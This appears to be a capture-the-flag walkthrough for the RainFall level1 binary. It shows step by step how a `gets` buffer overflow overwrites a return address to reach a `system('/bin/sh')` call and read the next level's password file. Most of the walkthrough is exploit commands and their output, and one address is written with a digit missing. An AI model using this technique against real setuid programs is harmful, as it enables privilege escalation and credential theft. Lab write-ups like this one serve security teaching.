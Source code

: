# level1 walkthrough

We are given a `level1` suid binary, which is a simple C program that awaits for input and then exits.

By dumping the binary with `objdump`, we can see it has a `main` function, as well as a `run` function. See [source.c](./source.c) for more information (compile with `-fno-stack-protector`).

The `main` function has a `gets` call, while the `run` function has a call to `system("/bin/sh")`; the goal of this level is to hijack our way into the `run` function.

We can do so by trying to overwrite the return address on the stack via a buffer overflow; we'll first figure out a right offset:

```
level1@RainFall:~$ python -c 'print "A"*100' | ./level1`
Segmentation fault (core dumped)
level1@RainFall:~$ python -c 'print "A"*50' | ./level1`
level1@RainFall:~$ python -c 'print "A"*75' | ./level1`
level1@RainFall:~$ python -c 'print "A"*76' | ./level1`
Illegal instruction (core dumped)
```

So we know that the offset is 76 bytes. We can then take the address of the `run` function (`0x0804844`), convert it to little-endian hex bytes (`\x44\x84\x04\x08`), and append it to our payload:

```
level1@RainFall:~$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Good... Wait what?

We got the print statement from the `run` function, but where's our shell?!

Well, since we're passing the input as a pipe, `/bin/sh` won't see an interactive stdin, and will just terminate. We can get around this issue with a little shell trickery. Here's the final exploit:

```
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
<pass>
```

And there we have it, we can now login as `level2`!
